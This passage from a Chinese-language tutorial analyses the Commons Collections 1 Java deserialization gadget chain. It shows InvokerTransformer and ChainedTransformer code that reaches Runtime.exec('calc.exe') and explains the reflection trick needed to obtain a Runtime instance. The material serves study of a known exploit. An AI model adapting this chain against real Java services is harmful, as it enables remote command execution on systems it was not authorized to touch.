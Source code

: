 ![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_44_2sdXoa7H.png)

那么我们在payload写入Runtime实例的计划就泡汤了

#### 在服务端生成Runtime实例
既然我们没法在客户端序列化写入Runtime的实例，那就让服务端执行我们的命令生成一个Runtime实例呗？
我们知道Runtime的实例是通过`Runtime.getRuntime()`来获取的，而`InvokerTransformer`里面的反射机制可以执行任意函数。
同时，我们已经成功执行过Runtime类里面的exec函数。讲道理肯定是没问题的。
我们先看getRuntime方法的参数
```java
public static Runtime getRuntime() {
    return currentRuntime;
}
```
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),//得到Runtime class
    //由于InvokerTransformer的构造函数要求传入Class类型的参数类型，和Object类型的参数数值，所以封装一下，下面也一样
    //上面传入Runtime.class，调用Runtime class的getRuntime方法（由于是一个静态方法，invoke调用静态方法，传入类即可）
    new InvokerTransformer("getRuntime",new Class[]{},new Object[]{}),
    //上面Runtime.getRuntime()得到了实例，作为这边的输入(invoke调用普通方法，需要传入类的实例)     
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    };
Transformer transformerChain = new ChainedTransformer(transformers);
transformerChain.transform(null);
```
看起来万事大吉了，但是

![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_45_F8UHoaSX.png)

在对InvokerTransformer中`Class cls = input.getClass();` 的解释中可以知道

- 当input是一个类的**实例对象，**获取到的是这个类
- 当input是一个类时，获取到的是`java.lang.Class`

我们来推演第一次InvokerTransformer的反射调用，即得到Runtime类对象的getRuntime方法调用
```java
//InvokeTransformer关键语句：
public Object transform(Object input) {//input为我们设置的常量Runtime.class
    Class cls = input.getClass();//这里由于input是一个类，会得到java.lang.Class
    //在java.lang.Class类中去寻找getRuntime方法企图得到Runtime类对象，此处报错
    Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
    return method.invoke(input, this.iArgs);
}
```
那么我们好像陷入了一个死胡同：
**得到Runtime类实例才能调用exec方法。**
而得到Runtime类实例作为input，才能得到Runtime class，才能找到getRuntime方法，得到Runtime类实例.........
#### 继续反思反射机制
那么我们通过直接调用Runtime.getRuntime方法好像是行不通了,有没有其他方法呢？
目前问题有如下：

1. 我们开头不能获得Class.forName("java.lang.Runtime")，只能得到Class.forName("java.lang.Class")
2. 我们可以有任意的反射机制
3. 我们要获取到Runtime.getRunime函数，并执行它。
4. 通过反射机制获取反射机制中的getMethod类，由于getMethod类是存在Class类中，就符合开头Class类的限制
5. 通过getMethod函数获取Runtime类中的getRuntime函数
6. 在哪个类中调用getMethod去获取方法，实际上是由invoke函数里面的的第一个参数obj决定的
7. 再通过反射机制获取反射机制中的invoke类，执行上面获取的getRuntime函数
8. invoke调用getRuntime函数，获取Runtime类的实例
9. 这里在使用反射机制调用getRuntime静态类时，invoke里面第一个参数obj其实可以任意改为null，或者其他类，而不一定要是Runtime类
